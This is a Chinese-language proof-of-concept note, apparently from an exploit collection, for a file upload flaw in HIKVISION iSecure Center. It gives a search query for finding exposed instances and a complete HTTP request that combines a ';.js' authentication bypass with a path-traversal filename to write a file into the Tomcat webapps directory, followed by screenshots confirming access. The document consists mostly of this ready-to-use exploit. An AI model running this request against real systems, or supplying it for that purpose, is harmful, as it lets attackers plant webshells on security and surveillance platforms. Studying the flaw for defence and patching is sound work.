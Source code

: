 # HIKVISION iSecure Center综合安防管理平台文件上传

## 1.漏洞描述

HIKVISION iSecure Center综合安防管理平台存在文件上传漏洞

## 2.搜索语法

```plain
app="HIKVISION-iSecure-Center"
```

## 3.漏洞复现

```plain
POST /center/api/files;.js HTTP/1.1
Host: 127.0.0.1
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 251
Content-Type: multipart/form-data; boundary=e54e7e5834c8c50e92189959fe7227a4

--e54e7e5834c8c50e92189959fe7227a4
Content-Disposition: form-data; name="file"; filename="../../../../../bin/tomcat/apache-tomcat/webapps/clusterMgr/hhh.txt"
Content-Type: application/octet-stream

hhh
--e54e7e5834c8c50e92189959fe7227a4--
```

响应包如下：

![image](https://github.com/hardog123/poc-exp/assets/170905460/add33246-0558-43f8-9fb2-68aa120c2a5c)


拼接路径访问：

/clusterMgr/hhh.txt;.js
![image](https://github.com/hardog123/poc-exp/assets/170905460/daf8405e-340b-4134-8c9a-b01e1729c9d3)

